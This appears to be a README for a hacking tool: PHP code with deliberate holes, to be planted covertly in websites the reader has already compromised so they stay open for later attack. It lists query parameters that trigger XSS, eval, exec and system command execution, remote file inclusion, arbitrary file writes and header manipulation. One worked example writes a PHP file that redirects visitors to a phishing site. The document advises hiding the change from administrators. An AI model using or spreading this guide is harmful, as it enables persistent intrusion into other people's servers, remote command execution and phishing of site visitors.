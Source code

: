 <div align="center">
# PHP Vulnerable code 


</div>

### Description:

This is a Vulnerable PHP Codes to put inside a file (but do not modify that file to avoid the admin discovering what you've done) for future attack.
Note that the only purpose of this code is to insert this shit in a file to make the site vulnerable for your future attack.

Note that this is not a shell or backdoor. This is just a vulnerable php codes that you can insert to the site you have hacked to make the sites vulnerable for future attack.

__Disadvatage__

Other hackers might find and exploit this but if you want though you can put this vulnerable code in a seperate file and just put a password so only you can access this.


### Queries and Parameters

+ XSS

   .php?xzz=//your xss parameter here

+ Eval

   .php?zeval=//command here

+ Exec

   .php?zexec=//command here

+ System

   .php?zsys=//command here

   `Note: You don't have to type system() here. Just type the commands and that's all. For Example: .php?zsys=uname%20-a

+ File Inclusions

   .php?zfile=//remote or local file here

+ Create and Write a File

   .php?zfilename=filename-of-your-choice&&zcontent=file-content

   ```
   Example:
   I want to write a php file in a site but that site has no shell yet.
   The filename I want is redir.php and the content I want is this: <?php header("LOcation: " . "https://my-phishing-sites.com");

   So I will put these in the address bar:

   .php?zfilename=redir.php&&zcontent=<?php header("Location: " . "https://my-phishing-site.com");


   Everything depends on you.

+ Header Hacking and Manipulating

   .php?zheader=//Your Header Content Here
